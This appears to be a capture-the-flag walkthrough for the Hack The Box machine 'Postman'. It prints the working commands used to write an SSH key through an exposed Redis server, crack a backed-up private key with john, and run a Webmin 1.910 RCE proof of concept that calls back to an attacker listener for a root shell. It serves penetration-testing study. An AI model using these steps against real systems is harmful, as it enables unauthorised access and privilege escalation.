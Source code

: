 # Postman

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.2.1   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 02:05 EDT
Nmap scan report for 10.129.2.1
Host is up (0.0065s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
6379/tcp  open  redis
10000/tcp open  snet-sensor-mgmt
```

Redis is open interestingly. So we can try to check for vulnerabilities there first.

### SSH Key Write

We can connect to Redis using `redis-cli`.&#x20;

```
$ redis-cli -h 10.129.2.1
10.129.2.1:6379> info
# Server
redis_version:4.0.9
```

The Redis version is really outdated, so we can try to find some exploits regarding it. Hacktricks has some methods of exploiting this by writing SSH keys.&#x20;

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#ssh" %}

Just follow these commands:

```bash
ssh-keygen -t rsa
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > spaced_key.txt
cat spaced_key.txt | redis-cli -h 10.129.2.1 -x set ssh_key
redis-cli -h 10.129.2.1
config set dir /var/lib/redis/.ssh
config set dbfilename "authorized_keys"
save
exit
chmod 600 id_rsa
ssh -i id_rsa redis@10.129.2.1
```

This would generate a pair of keys, and afterwards write it into the machine as the keys for `redis`. Then we can directly SSH in.

<figure><img src="../../../.gitbook/assets/image (2621).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### User SSH Key

Within the `/home` directory, we find the user is called Matt

```
redis@Postman:/home$ ls -la
total 12
drwxr-xr-x  3 root root 4096 Sep 11  2019 .
drwxr-xr-x 22 root root 4096 Aug 25  2019 ..
drwxr-xr-x  6 Matt Matt 4096 Sep 11  2019 Matt
```

Within the `/opt` directory, there's a password encrypted `id_rsa` file.&#x20;

```
redis@Postman:/opt$ ls -la
total 12
drwxr-xr-x  2 root root 4096 Sep 11  2019 .
drwxr-xr-x 22 root root 4096 Aug 25  2019 ..
-rwxr-xr-x  1 Matt Matt 1743 Aug 26  2019 id_rsa.bak
```

We can download this back to our machine and use `ssh2john` and `john` to crack it.&#x20;

```
$ ssh2john id_rsa.bak > hash.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa.bak)     
1g 0:00:00:00 DONE (2023-05-02 02:17) 9.090g/s 2243Kp/s 2243Kc/s 2243KC/s confused6..comett
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Great! We now have a password for the user. We can use `su` to change from `redis` to `Matt`.&#x20;

<figure><img src="../../../.gitbook/assets/image (3221).png" alt=""><figcaption></figcaption></figure>

We can then grab the user flag.

### Webmin

In the earlier `nmap` scan, we found that there were some HTTP ports that I didn't touch till now. Port 10000 has a Webmin instance running, and we can login using the credentials we just found.

<figure><img src="../../../.gitbook/assets/image (470).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3718).png" alt=""><figcaption></figcaption></figure>

This was running Webmin 1.910, which is vulnerable to RCE through Package Updates. There are tons of PoCs online.

{% embed url="https://github.com/NaveenNguyen/Webmin-1.910-Package-Updates-RCE/blob/master/exploit_poc.py" %}

```bash
$ python3 rce.py --ip_address 10.129.2.1 --port 10000 --lhost 10.10.14.13 --lport 4444 --user Matt --password computer2008
```

This would give us an easy `root` shell.

<figure><img src="../../../.gitbook/assets/image (2483).png" alt=""><figcaption></figcaption></figure>
